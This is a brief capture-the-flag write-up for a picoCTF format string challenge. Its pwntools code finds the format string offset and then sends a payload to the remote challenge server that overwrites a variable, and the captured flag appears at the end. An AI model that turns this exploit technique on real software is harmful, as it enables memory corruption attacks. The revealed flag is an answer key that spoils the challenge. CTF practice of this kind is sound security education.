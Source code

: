 ```yaml
---
created: 2024-08-07T23:48
updated: 2024-08-07T23:57
---
```


Simple application of format string attack.
## Offset

```python
from pwn import *

elf = context.binary = ELF('./vuln')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info(f"{offset=}")
```

## Format String Attack

```python
info(f"{elf.symbols['sus']=}")

p = remote('rhea.picoctf.net', 49852)
p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
info(p.recvall().decode())
p.close()
```

```flag
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```
